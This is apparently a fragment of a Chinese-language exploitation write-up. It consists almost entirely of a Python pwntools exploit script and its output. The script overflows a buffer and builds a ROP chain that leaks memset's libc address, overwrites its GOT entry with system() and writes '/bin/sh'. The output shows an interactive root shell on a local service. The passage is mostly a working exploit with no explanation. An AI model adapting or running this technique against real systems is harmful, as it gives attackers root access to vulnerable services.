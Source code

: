 ```python
memset_off = 0x08f920            # memset()'s offset in libc.so.6
system_off = 0x043270            # system()'s offset in libc.so.6

writeable  = 0x601000            # location to write "/bin/sh" to

payload ="A"*168 + p64(pop3ret)+p64(1)+p64(memset_got)+p64(8)+p64(write_plt)    #leak memset()'s libc address using write@plt
payload+=p64(pop3ret)+p64(0)+p64(memset_got)+p64(8)+p64(read_plt)               #overwrite memset()'s GOT entry using read@plt
payload+=p64(pop3ret)+p64(0)+p64(writeable)+p64(8)+p64(read_plt)               #read "/bin/sh" into 0x601000 using read@plt
payload+=p64(pop3ret)+p64(writeable)+p64(1)+p64(1)+p64(memset_plt)              #set RDI to location of "/bin/sh", and call system()
r = remote("127.0.0.1",4000)
raw_input('#')
print r.recvuntil('input: ')
r.sendline(payload)
r.recvline()
memset=u64(r.recv(8))
print hex(memset)

print (hex(memset-memset_off+system_off))

#r.sendline('AAAABBBB')
#raw_input('#')
r.send(p64(memset-memset_off+system_off))
r.send(p64(0x6873))
raw_input('#')
r.interactive()

```
最终的结果
```
python mortyexp.py 
[+] Opening connection to 127.0.0.1 on port 4000: Done
#
Enter input: 
0x7f92ef091920
0x7f92ef045270
#
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)

```